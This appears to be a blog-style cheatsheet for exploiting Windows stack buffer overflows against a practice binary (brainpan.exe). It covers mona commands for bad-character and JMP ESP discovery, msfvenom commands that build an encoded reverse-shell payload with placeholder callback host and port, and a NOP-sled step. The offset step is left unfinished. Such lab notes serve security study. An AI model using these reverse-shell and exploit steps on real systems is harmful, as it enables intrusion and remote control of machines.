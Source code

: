 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
---
```



### Get control of EIP
First, lets use some [skeletons](https://github.com/acc3ssp0int-official/buffer-overflow-skeleton-scripts) to overwrite the EIP  

Then, let's generate a pattern to identify the offset  
`Todo: complete msfpatterncreate command and msfpatternfind`


### After getting control of EIP
Set a **working folder**  
`!mona config -set workingfolder C:\Users\shroudri\%p`

Generate bytearray  
`!mona bytearray`

Generate bytearray excluding a certain badchar\
`!mona bytearray -cpb "\x00"`
`!mona bytearray -cpb "\x00\x0a\etc"`



Compare ESP with generated bytearray to check for badchars automatically  
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom  
> msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread`  
>msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread`  


List all available programs        
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp)   
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode   
`NOPS= "x90"*16`